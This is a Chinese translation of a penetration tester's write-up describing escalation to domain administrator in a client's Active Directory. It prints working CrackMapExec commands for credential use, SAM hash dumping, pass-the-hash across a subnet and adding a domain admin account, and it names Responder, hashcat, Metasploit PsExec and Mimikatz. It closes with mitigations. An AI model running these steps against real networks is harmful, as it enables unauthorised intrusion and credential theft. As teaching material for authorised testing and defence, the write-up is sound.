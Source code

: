 > 原文链接: https://www.anquanke.com//post/id/100191 


# 如何从外部Active Directory获取域管理员权限


                                阅读量   
                                **95731**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者 rb256，文章来源：markitzeroday.com
                                <br>原文地址：[https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t015e5dd0eb61212ded.jpg)](https://p1.ssl.qhimg.com/t015e5dd0eb61212ded.jpg)



## 写在前面的话

我之前曾是一名传统的Web开发人员，这也是让我对信息安全感兴趣的原因之一。除此之外，我平时自己也会去进行各种各样的渗透测试，一开始只是兼职，现在我已经变成一名全职的渗透测试人员了。值得一提的是，在我的渗透测试过程中，活动目录（Active Directory）测试已经成为了我最喜欢的一种渗透测试类型了。<br>
这篇文章介绍的是我在今年年初给其中一名客户所进行的内部网络测试情况。其实在此之前，我已经给这名客户的网络系统进行过测试了，但是这名客户的网络非常难渗透，所以这一次我就有些担心我是否能够成功“入侵”这个网络，因为上次我可是花了九牛二虎之力才成功的。



## 直奔主题

我在内部网络运行的第一个工具就是Responder。这个工具可以从本地子网的LLMNR或NetBIOS请求中获取Windiws哈希，不过这名客户非常机智地禁用掉了LLMNR和NetBIOS请求。除了我在之前对其所进行的渗透测试中获取到的信息之外，我从我的OSCP课程中还学到了一样东西：即首先尝试最简单的东西。如果房间的大门是敞开的，你为什么一定要破窗而入呢？<br>
于是乎，我运行了Responder，当我获取到了如下图所示的哈希输出之后，我惊呆了：

[![](https://p2.ssl.qhimg.com/t016bd9ba76de6c0baa.png)](https://p2.ssl.qhimg.com/t016bd9ba76de6c0baa.png)<br>
当然了，我永远不会在我的文章中泄露客户的凭证信息，所以你在本文中看到的所有数据都是经过了匿名化处理的，而且细节数据我都已经修改过了。<br>
我们可以从这里看到，主机172.16.157.133给我们发送了账号FRONTDESK的NETNTLMv2哈希。在Crack Map Exec（CME）工具的帮助下我们对这台主机的NetBIOS信息进行了检测，并判断这个值是否是某个本地账号的哈希。如果是的话，那么其中的“domain”部分就是主机的用户名了：

```
[SMBv2] NTLMv2-SSP Username : 2-FD-87622FRONTDESK
```

比如说，在此时的场景中，2-FD-87622就应该是主机的NetBIOS名。使用CME查看IP地址后，我们可以看到主机设备的名称：

[![](https://p1.ssl.qhimg.com/t013bbe139338344656.png)](https://p1.ssl.qhimg.com/t013bbe139338344656.png)<br>
那么接下来，我们就可以尝试破解这个哈希值，并获取到明文形式的密码了。在hashcat和密码字典rockyou.txt的帮助下，我们迅速破解出了这个密码。

[![](https://p5.ssl.qhimg.com/t0153097acd44fcf063.png)](https://p5.ssl.qhimg.com/t0153097acd44fcf063.png)<br>
现在，我们手上已经得到了FRONTDEST设备的一系列凭证数据了，当我们再次使用CME来对这台设备进行扫描测试时，返回的就是已破解的凭证信息了：

```
cme smb 172.16.157.133 -u FRONTDESK -p 'Winter2018!' --local-auth
```

[![](https://p3.ssl.qhimg.com/t01df4b296e2b8c5669.png)](https://p3.ssl.qhimg.com/t01df4b296e2b8c5669.png)<br>
我们可以看到上图所示的输出结果中的“Pwn3d！”，这表明它是一个本地管理员账号。因此，这也就意味着我们已经得到了能够导出本地密码哈希的权限了：

```
cme smb 172.16.157.133 -u FRONTDESK -p 'Winter2018!' --local-auth --sam
```

[![](https://p1.ssl.qhimg.com/t01150a32adfa39965e.png)](https://p1.ssl.qhimg.com/t01150a32adfa39965e.png)

现在我们可以看到：

```
FRONTDESK:1002:aad3b435b51404eeaad3b435b51404ee:eb6538aa406cfad09403d3bb1f94785f:::
```

这一次，我们看到的是密码的NTLM哈希，而不是Responder之前所获取到的NETNTLMv2“挑战/响应”哈希。Responder可以从网络数据中捕捉到哈希，但是这种格式跟Windows存储在SAM中的数据格式是有所区别的。<br>
接下来我们就要尝试使用这个本地管理员哈希了，需要注意的是，我们根本就不需要破解这个管理员账号的密码，因为我们只需要使用这个密码哈希就可以了：

```
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

[![](https://p4.ssl.qhimg.com/t016a7995bcc25d2380.png)](https://p4.ssl.qhimg.com/t016a7995bcc25d2380.png)<br>
我们可以使用NTLM存储格式来传递密码哈希，但千万不能使用NETNTLMv2格式（除非你想进行的是SMB中继攻击）。<br>
让我们感到惊讶的是，本地管理员密码竟然在STEWIE设备中再一次出现了，这就是传说中密码重用的情况了。下面给出的是这台主机的NetBIOS信息：

```
$ cme smb 172.16.157.134
SMB 172.16.157.134 445 STEWIE
[*] Windows Server 2008 R2 Foundation 7600 x64 (name:STEWIE) (domain:MACFARLANE)
(signing:False) (SMBv1:True)
```

我们可以看到，这台主机是MACFARLANE域的成员之一，而这个域是我客户的活动目录所在的主域。所以说，一台不在目标域中的计算机里竟然重用了内部网络服务器的本地管理员密码，这你敢信？现在，在Metasploit和PsExec的帮助下，我们就可以将NTLM作为密码，然后利用Metasploit来传递密码哈希并完成入侵渗透了：

[![](https://p4.ssl.qhimg.com/t0194452e79ed3e46dd.png)](https://p4.ssl.qhimg.com/t0194452e79ed3e46dd.png)<br>
运行了相应命令之后，我们成功获取到了目标主机的shell：

[![](https://p3.ssl.qhimg.com/t01b39e228cb894d273.png)](https://p3.ssl.qhimg.com/t01b39e228cb894d273.png)<br>
我们还可以加载Mimikatz模块并读取Windows内存数据来寻找密码：

[![](https://p3.ssl.qhimg.com/t01f3b4b74b0c450376.png)](https://p3.ssl.qhimg.com/t01f3b4b74b0c450376.png)<br>
这样看来，我们似乎得到了域管理员（DA）的账号信息了。那么接下来，我们使用CME来在域控制器中执行了命令，并将我们自己添加为了域管理员（这样操作纯粹是为了方便演示我们的渗透测试，在真实的攻击场景中，为了保证攻击的隐蔽性，我们一般选择使用已发现的账号）。

```
cme smb 172.16.157.135 -u administrator -p 'October17' -x 'net user markitzeroda hackersPassword! /add /domain /y &amp;&amp; net group "domain admins" markitzeroda /add'
```

请注意上述代码中我们所使用的/y参数，它的作用是强制让Windows允许我们将可用的密码长度增加到14个字符以上。<br>
下图显示的是域控制器的远程桌面截图：

[![](https://p3.ssl.qhimg.com/t01a5facc76d5987f35.png)](https://p3.ssl.qhimg.com/t01a5facc76d5987f35.png)



## 总结

因此，如果FRONTDEST设备已经加入了目标域中，我肯定会选择禁用LLMNR（从组策略中禁用），这样一来攻击者在一开始就不会得到该设备的访问权了，因此也就不会得到可以入侵整个域的访问凭证了。当然了，现在还有很多其他的缓解方案，比如说利用LAPS来管理本地管理员密码，或通过设置FilterAdministratorToken来防止SMB登录。<br>
在这篇文章中，我们通过实际的渗透测试来告诉了大家如何通过外部活动目录来获取到域管理员的帐号凭证，希望本文的内容可以给大家平时的渗透测试带来一些灵感。
